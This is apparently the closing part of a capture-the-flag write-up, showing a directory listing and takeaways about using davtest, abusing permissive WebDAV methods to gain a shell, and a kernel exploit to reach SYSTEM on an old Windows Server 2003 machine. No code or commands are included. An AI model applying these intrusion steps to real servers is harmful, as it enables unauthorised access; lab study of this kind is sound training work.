1 File(s) 32 bytes
2 Dir(s) 18,122,551,296 bytes free
Takeaway
- I discovered a new tool for testing WebDAV: davtest
- We used the permissive methods allowed by the WebDAV to get a shell as a network service
- Kernel exploit was an easy way to escalate our privileges to system since the box is an old unpatched Windows Server 2003